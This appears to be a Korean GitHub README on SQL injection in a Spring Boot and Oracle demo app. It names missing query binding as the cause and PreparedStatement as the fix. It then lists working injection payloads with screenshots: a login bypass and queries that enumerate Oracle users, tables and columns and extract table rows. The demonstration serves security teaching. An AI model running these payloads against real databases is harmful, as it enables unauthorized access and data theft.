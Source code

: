 # SQLInjection
### 특징 : 발생 원인은 쿼리 바인딩이 제대로 이루어 지지 않은 경우 이며, 조치 또한 쿼리 바인딩(PreparedStatement) 처리  
- ### Query Binding 예시(iBatis 또한 인젝션 가능한 바인딩의 경우는 동일)
  ![쿼리 바인딩](https://github.com/user-attachments/assets/6858c910-dffd-4d90-841d-929087c04735)  
- ### SQL Injection 구문 예시 (스프링 부트 + 오라클) 
  - #### 1. 간략 로그인 : ' OR '1'='1
      ![로그인](https://github.com/user-attachments/assets/7e6a73d8-094f-4a04-be11-3d1fc91bb25c)   
  - #### 2. 오라클 계정 리스트 : SELECT LISTAGG(table_name || ' - ' || tablespace_name), NULL(생략) FROM all_users--
      ![아이디](https://github.com/user-attachments/assets/65685703-9f77-48b8-b208-11b1a6f7a391)
  - #### 3. 오라클 계정 테이블 리스트 : SELECT LISTAGG(table_name || ' - ' || tablespace_name), NULL(생략) FROM user_tables--  
      ![유저테이블](https://github.com/user-attachments/assets/f4b2c3de-cb35-4dc9-babb-cfc2932e62c4)
  - #### 4. 오라클 특정 테이블 컬럼 상세 정보 / 위의 탈취한 테이블로 컬럼 값 추출
      #### SELECT LISTAGG(column_name || ' - ' || data_type || ' - ' || data_length, ', ') WITHIN GROUP (ORDER BY column_id) AS combined_columns, NULL(생략) FROM user_tab_columns where table_name='BOOKCASE3'--  
      ![컬럼 정보](https://github.com/user-attachments/assets/49c4d45d-6b56-40cc-983d-10d1ed82b08a)
  - #### 5. 오라클 특정 테이블 원하는 정보 추출 / 위의 탈취한 테이블의 컬럼 값 으로 원하는 정보 추출
      #### SELECT LISTAGG(title || ' - ' || writer || ' - ' || publisher), NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL from BOOKCASE3--  
      ![전체추출](https://github.com/user-attachments/assets/757a3055-56a4-4ce0-af65-aa417f99b21e)  
